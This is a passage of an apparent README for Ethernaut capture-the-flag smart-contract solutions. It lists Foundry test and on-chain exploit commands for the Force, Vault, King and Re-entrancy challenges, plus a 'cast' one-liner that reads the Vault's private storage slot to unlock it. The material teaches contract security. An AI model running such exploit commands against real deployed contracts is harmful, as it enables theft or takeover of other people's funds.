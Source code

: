 **Exploit on chain**
```sh
forge script ForceExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_RINKEBY --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 8. Vault
[Challenge & Exploit codes](Vault)

**Test**
```sh
forge test --match-contract VaultExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script VaultExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_RINKEBY --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

`cast` command-only one-liner:
```sh
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "unlock(bytes32)" $(cast storage  $INSTANCE_ADDRESS 1)
```

## 9. King
[Challenge & Exploit codes](King)

**Test**
```sh
forge test --match-contract KingExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script KingExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_RINKEBY --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 10. Re-entrancy
[Challenge & Exploit codes](Reentrance)

**Test**
```sh
forge test --match-contract ReentranceExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script ReentranceExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_RINKEBY --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 11. Elevator
[Challenge & Exploit codes](Elevator)

